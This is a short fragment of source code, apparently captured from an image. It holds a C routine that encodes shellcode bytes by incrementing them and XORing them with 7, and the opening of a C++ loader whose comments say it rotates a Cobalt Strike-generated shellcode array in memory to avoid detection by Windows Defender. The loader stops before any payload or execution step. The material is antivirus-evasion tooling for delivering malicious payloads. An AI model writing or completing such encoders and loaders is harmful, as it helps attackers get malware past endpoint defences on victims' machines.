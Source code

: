 ```c

  //  Iterate over each byte in the array
  for(short i = 0; i < sizeof(array); i++) {
    short current = array[i];

    // Increment by 1 or roll over to stay within eight bits
    if(current < 255) {
      current += 1;
    } else {
      current = 0;
    }

    // Write to STDOUT

    // XOR with 7
    current ^= 7;

    printf("\\x%x", current);
  }

  // Copy/paste wrapper
  printf("\";\n\n");

  return 0;
}
```

```cpp
// Rotates shellcode bytes in memory to avoid on-disk detection by Windows Defender
// Idea from https://www.ired.team/offensive-security/defense-evasion/evading-windows-defender-using-classic-c-shellcode-launcher-with-1-byte-change

#include <windows.h>

int main() {
  // This is the array generated by CS, which gets detected instantly by Defender
```
